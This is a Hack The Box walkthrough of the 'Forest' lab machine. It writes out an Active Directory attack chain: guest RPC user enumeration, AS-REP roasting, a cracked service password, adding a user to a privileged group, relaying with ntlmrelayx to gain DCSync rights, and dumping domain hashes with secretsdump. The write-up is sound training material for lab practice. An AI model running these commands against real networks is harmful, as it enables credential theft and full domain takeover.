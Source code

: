 ```yaml
---
title: "Hack The Box - Forest"
tags: [windows,easy,rpc , rpcclient , asreproasting , roasting , bloodhound , WriteDACL , GenericAll , DCSync atttack , ntlmrelayx , secretsdump]
categories: HackTheBox-Active-Directory
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled.png)

## NMAP :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%201.png)

## Enumerating and Kerberoasting
⇒ We are able to authenticate to rpc as guest user and enumerate users :

`rpcclient -U guest -H 10.10.10.161`

`enumdomusers`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%202.png)

→ Lets save these usernames in an file then we can perform asreproast.

⇒ **ASREPRoasting** using impacket tool [GetNPUsers.py](http://getnpusers.py/)

`python3 GetNPUsers.py -dc-ip 10.10.10.161 htb.local/ -usersfile users.txt -output hash`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%203.png)

→ Cracking the password , we got svc-alfresco user password :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%204.png)

**svc-alfresco : s3rvice**

⇒ We used evil-winrm with svc-alfresco user credentials :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%205.png)

## Privilege Escalation to Administrator

⇒ Running Bloodhound :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%206.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%207.png)

→ Our user is in service accounts so we can create users.

→ We have `GenericAll` to **EXCHANGE WINDOWS PERMISSIONS** group :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%208.png)

→ Users in **EXCHANGE WINDOWS PERMISSIONS** group have `WriteDacl` to DC.

⇒ Creating a user and adding it to the group :

`net user jake s3rvice /add /domain`

`net group "EXCHANGE WINDOWS PERMISSION" jake /add`

⇒ Now we have **WriteDACL** we will use **ntlmrelayx** to give our user **DCSync** rights :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%209.png)

`ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user jake` 

→ Authenticating :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%2010.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%2011.png)

→ Using impacket tool secretsdump to perform DCSync attack :

`secretsdump.py htb.local/jake:s3rvice@10.10.10.161`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%2012.png)

⇒ Used the Administrator NTLM Hash with evil-winrm :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%2013.png)

